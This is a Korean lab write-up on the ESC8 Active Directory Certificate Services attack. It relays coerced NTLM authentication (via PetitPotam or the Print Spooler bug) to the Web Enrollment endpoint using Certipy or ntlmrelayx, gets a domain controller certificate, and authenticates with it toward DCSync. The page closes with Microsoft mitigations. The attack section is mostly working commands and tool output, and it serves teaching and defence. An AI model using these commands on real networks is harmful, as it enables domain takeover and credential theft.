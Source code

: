 # ESC8

### 개념&#x20;

ADCS 에는 Web Enrollment 라는 웹 서비스가 존재한다. 이 웹 서비스는 유저, 스크립트, 프로그램 등이 ADCS 서비스와 편리하게 통신하기 위해 웹 서버와 HTTP 엔드포인트 등을 제공한다. 액티브 디렉토리 안의 서비스 답게 이 웹 서버는 기본적으로 NTLM 인증을 통해 사용자 인증이 가능하다 - 라는 말은 곧 NTLM Relay 공격에 취약 하다는 말이 된다.&#x20;

ESC8 은 NTLM Relay 공격을 통해 피해자 유저/머신의 NTLM 인증 트래픽을 ADCS HTTP 엔드 포인트로 보낸 뒤, 피해자 유저/머신으로 인증서를 발급받아 사용자 인증 및 계정을 탈취하는 공격이다.&#x20;

### 전제 조건&#x20;

1. ADCS 서버에 Web Enrollment 가 설치되어 있다&#x20;
2. NTLM Relay 를 시작할 수 있는 피해자 유저/머신과 취약점이 존재한다 (강제 인증, LLMNR/NBT-NS 포이즈닝, MITM6, 등)&#x20;
3. Web Enrollment 웹 서버가 NTLM 인증을 허용한다 - 특별한 설정을 하지 않는 이상 기본적으로 허용한다.&#x20;



### 실습&#x20;

해당 실습에서는 강제 인증에 취약한 도메인 컨트롤러로부터 인증 트래픽을 받아 이를 CA 서버의 HTTP 엔드포인트에 릴레이하는 ESC8 공격을 실행한다. 이로서 공격자는 도메인 컨트롤러 머신 계정을 장악한. 도메인 컨트롤러 머신 계정은 DCSync 권한을 갖고 있기 때문에 도메인을 장악할 수 있게 된다.&#x20;

> 도메인 컨트롤러 -> 강제 인증 -> 공격자 -> 릴레이 -> ADCS HTTP 엔드포인트 == 도메인 컨트롤러의 인증서 획득. 인증서를 이용해 도메인 컨트롤러로 인증 후 DCSync&#x20;

#### 정보 수집&#x20;

1. 먼저 CA와 CA의 Web Enrollment 가 존재하는지 Certipy 로 알아본다. `Web Enrollment: Enabled` 라면 웹서버가 활성화 되어 있는 것이다.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

2\. 정확한 확인을 위해 GUI에서는 HTTP 엔드포인트를 브라우저로 방문하거나 curl 등을 이용한다. `401 Unauthorized` 에러 메시지가 나오면 제대로 HTTP 엔드포인트가 실행 중이라는 것이다.&#x20;

```
$ curl -k http://<CA-IP>/certsrv/certfnsh.asp

$ curl -k http://192.168.40.150/certsrv/certfnsh.asp                                              
[ ... ] 
<body>
<div id="header"><h1>Server Error</h1></div>
<div id="content">
 <div class="content-container"><fieldset>
  <h2>401 - Unauthorized: Access is denied due to invalid credentials.</h2>
  <h3>You do not have permission to view this directory or page using the credentials that you supplied.</h3>
```

3\. CA 서버의 HTTP 엔드포인트로 릴레이 세팅 해놓는다. Certipy 나 NTLMRelayx 를 이용한다.&#x20;

<pre><code># Certipy 
<strong>certipy relay -ca &#x3C;ca-ip> 
</strong>
# ntlmrelayx 
python3 ntlmrelayx.py -t http://&#x3C;CA-IP or FDQN>/certsrv/certfnsh.asp -smb2support --adcs --template &#x3C;template>
</code></pre>

4\. 강제 인증, LLMNR/NBT-NS, MITM6 등을 이용해 도메인 컨트롤러를 공격해 NTLM Relay 공격을 실행한다.&#x20;

```
# Petitpotam - 무인증 
python3 Petitpotam.py <attacker-ip> <target-ip> 

# Petitpotam - 인증 
python3 Petitpotam.py -u <user> -p <pass> <attacker-ip> <target-ip> 

# Print Spooler (dementor.py) (https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) 
python3 dementor.py -u <user> -p <pass> -d <domain> <attacker-ip> <target-ip>

```

5\. Certipy 결과&#x20;

```
certipy relay -ca dc01.choi.local -template DomainController
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Targeting http://dc01.choi.local/certsrv/certfnsh.asp
[*] Listening on 0.0.0.0:445
[*] Requesting certificate for 'PCI\\DC1$' based on the template 'DomainController'
[*] Got certificate with DNS Host Name 'dc1.pci.choi.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'dc1.pfx'
[*] Exiting...
```

(5-1. NTLMRelayx 결과)&#x20;

```
[*] Authenticating against http://192.168.40.150 as PCI/DC1$ SUCCEED                                          
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.40.160 controlled, but there are no more targets left!
[*] Generating CSR...                                  
[*] CSR generated!                                     
[*] Getting certificate...                             
[*] GOT CERTIFICATE! ID 22                             
[*] Base64 certificate of user DC1$:                   
MIIRbQIBAzCCEScGCSqGSIb3DQEHAaCCERgEghEUMIIREDCCB0cGCSqG [ ..... ] 
```

6\. 인증서를 이용해 도메인 컨트롤러의 머신 계정을 획득한다.&#x20;

```
# Certipy
certipy auth -dc-ip <dc-IP> -pfx <filename>

# NTLMRelayx 
Base64 Certificate 을 저장한다. 
$ base64 -d <base64-pfx> > real.pfx 
$ certipy auth -dc-ip <dc-IP> -pfx real.pfx 
```



### 대응 방안&#x20;

> 다음의 대응 방안은 마이크로소프트사의 공식 문서를 기반으로 쓰여졌다. 더 자세한 사항은 레퍼런스 섹션의 MSDN을 참고한다.&#x20;

1. ADCS HTTP 엔드포인트에 Extended Protection Authentication (EPA) 을 `Required` 로 설정한다. \
   Server Manager > IIS Manager > DC/CAXX > Sites > Default Web Site > CertSrv > Authentication 더블클릭 > Windows Authentication 오른쪽 클릭 > Advanced Settings > Extended Protection: Required&#x20;

<figure><img src="../../../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>

1-1. 그 이 SSL을 활성화 한다.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

2\. 극단적으로 CA 서버에 NTLM 인증을 비활성화 한다. 프로덕션 서버의 경우 하위 호환성에 문제가 갈 수 있기 때문에 충분한 테스트를 거친 뒤 NTLM 인증을 비활성화 한다.  \
&#x20;

### 레퍼런스&#x20;

{% embed url="https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429" %}

